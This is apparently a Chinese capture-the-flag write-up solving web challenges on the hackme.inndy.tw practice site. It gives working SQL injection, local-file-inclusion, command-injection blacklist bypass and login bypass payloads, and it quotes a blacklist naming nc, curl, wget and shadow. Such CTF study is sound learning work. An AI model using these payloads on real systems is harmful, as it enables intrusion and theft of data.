 [Hackme CTF](htts://hackme.inndy.tw)
===

參賽者：Will

## Web
### 0x01 hide and seek
#### https://hackme.inndy.tw/

看網站原始碼並尋找 `FLAG{` 

![](https://i.imgur.com/Vm6Xy2E.png)



### 0x02 guestbook
#### https://hackme.inndy.tw/gb/

**Payload 1:** 取得資料庫名 g8

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(database()),4#`

**Payload 2:** 得到資料庫表名 flag

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='g8' limit 0,1),4#`

**Payload 3:** 得到資料庫列名 flag

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='flag' limit 1,1),4#`

**Payload 4:** 拿到該題 `flag`

`https://hackme.inndy.tw/gb/?mod=read&id=-1 union select 1,2,(select flag from flag limit 1,1),4#`



### 0x03 LFI
#### https://hackme.inndy.tw/lfi/?page=pages/index

**Payload 1:**

`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/flag`

base64 decode 後得到 flag.php

``` php
Can you read the flag<?php require('config.php'); ?>?
```

**Payload 2:**

`https://hackme.inndy.tw/lfi/?page=php://filter/read=convert.base64-encode/resource=pages/config`

base64 decode 後得到 config.php

``` php
<?php

$flag = "FLAG{Yoooooo_LFI_g00d_2cXxsXSYP9EVLrIo}";
```



### 0x04 homepage

#### https://hackme.inndy.tw/

查看原始碼得知 [cute.js](https://hackme.inndy.tw/cute.js)

aaencode 解碼後得到 js 原始碼

在 Firefox Console 執行得到 QR Code 掃描後得到 flag

![](https://i.imgur.com/eHkN7wF.png)



### 0x05 ping

#### https://hackme.inndy.tw/ping/

有一串黑名單陣列, 發現 `sort` 沒防護到

``` php
$blacklist = [
            'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
            'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
            'passwd', 'shadow', 'root', 'z',
            'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
            'xargs', 'PATH',
            '$0', 'proc',
            '/', '&', '|', '>', '<', ';', '"', '\'', '\\', "\n"
        ];
```

**Payload:**

`sort fl????hp`





### 0x06 scoreboard

#### https://hackme.inndy.tw/scoreboard/

**Payload:** X-Flag 就是 flag

`curl -I https://hackme.inndy.tw/scoreboard/`



### 0x07 login as admin 0

#### https://hackme.inndy.tw/login0/

過濾可以知道 `'` 會被取代成 `\\'`, 因此 `\'` 可以濾過

``` javascript
function safe_filter($str)
{
    $strl = strtolower($str);
    if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
}
```

**Payload 1:** 得到 guest

``` 
username = \' || 1#
password = 1
```

**Payload 2:** 得到 admin & flag

``` 
username = \' || 1 limit 1,1#
password = 1
```